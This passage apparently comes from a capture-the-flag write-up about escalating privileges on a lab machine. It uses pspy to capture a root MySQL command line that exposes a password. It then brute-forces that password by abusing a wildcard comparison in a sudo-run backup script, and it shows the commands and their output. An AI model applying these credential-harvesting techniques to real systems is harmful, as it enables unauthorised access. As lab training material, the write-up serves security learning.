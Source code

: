     pspy64              100%[===================>]   2.96M  4.34MB/s    in 0.7s    

    2024-04-04 16:37:22 (4.34 MB/s) - ‘pspy64’ saved [3104768/3104768]



I'll set it as executable and run it:



    joshua@codify:/dev/shm$ ./pspy64          
    pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d 
    ...[snip]...



Once it gets through all the start up, in a different session as joshua,
I'll run the script again, entering "\*" as the password. PSpy won't
catch it every time, but after a run or two, I'll catch the command line
for `mysqldump`:



    2024/04/04 16:46:17 CMD: UID=0     PID=3758   | /usr/bin/mysql -u root -h 0.0.0.0 -P 3306 -pkljh12k3jhaskjh12kjh3 -e SHOW DATABASES; 



The password is "kljh12k3jhaskjh12kjh3" (as `-p` is the flag for the
password).

#### Brute Force Password

The trickier route is to abuse the unsafe comparison with wildcards to
test the password. For example if I enter "a\*" as the password, it
fails:



    joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh 
    Enter MySQL password for root: 
    Password confirmation failed!



If I enter "k\*", it works:



    joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh 
    Enter MySQL password for root: 
    Password confirmed!
    ...[snip]...



I can give the password without waiting for the prompt as well, but
piping it into the process:



    joshua@codify:~$ echo "*" | sudo /opt/scripts/mysql-backup.sh 

    Password confirmed!
    mysql: [Warning] Using a password on the command line interface can be insecure.
    ...[snip]...

